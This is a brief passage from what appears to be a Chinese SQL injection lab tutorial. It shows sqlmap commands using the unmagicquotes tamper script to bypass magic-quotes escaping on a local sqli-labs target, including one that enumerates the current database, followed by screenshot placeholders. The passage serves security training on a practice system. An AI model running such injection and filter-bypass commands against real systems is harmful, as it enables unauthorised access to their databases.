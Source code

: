 #### 案例二：利用unmagicquotes脚本绕过magicquotes

 python sqlmap.py -u "http://127.0.0.1/sqli-labs-master/Less-33/?id=1" --batch --tamper=unmagicquotes

![img](./assets/1729918886982-1a42a07c-1af3-409f-a0a6-52ec8bccd9e5.png)

 python sqlmap.py -u "http://127.0.0.1/sqli-labs-master/Less-33/?id=1" --batch --tamper=unmagicquotes --current-db

![img](./assets/1729918886827-047add1a-3dcd-489b-9166-98e6a95fae7f.png)
